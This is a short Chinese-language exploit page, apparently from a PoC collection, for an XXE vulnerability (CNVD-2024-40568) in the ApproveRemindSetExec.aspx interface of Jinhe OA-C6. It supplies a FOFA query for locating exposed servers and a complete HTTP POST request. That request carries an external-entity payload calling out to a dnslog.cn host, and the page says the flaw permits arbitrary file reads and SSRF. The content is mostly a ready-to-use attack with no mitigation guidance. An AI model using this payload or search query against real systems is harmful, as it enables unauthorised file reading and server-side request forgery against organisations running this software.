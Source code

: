 # 金和OA-C6系统接口ApproveRemindSetExec.aspx存在XXE漏洞(CNVD-2024-40568)

金和OA-C6系统接口ApproveRemindSetExec.aspx存在XXE漏洞，攻击者可利用xxe漏洞获取服务器敏感数据，可读取任意文件以及ssrf攻击，存在一定的安全隐患。

## fofa

```javascript
app="金和网络-金和OA"
```

## poc

```javascript
POST /c6/JHSoft.Web.AddMenu/ApproveRemindSetExec.aspx/? HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/xml

<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://wwwwwwwwwwwwwwww.t07q8o.dnslog.cn"> %remote;]>
```

![image-20241029095818142](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410290958202.png)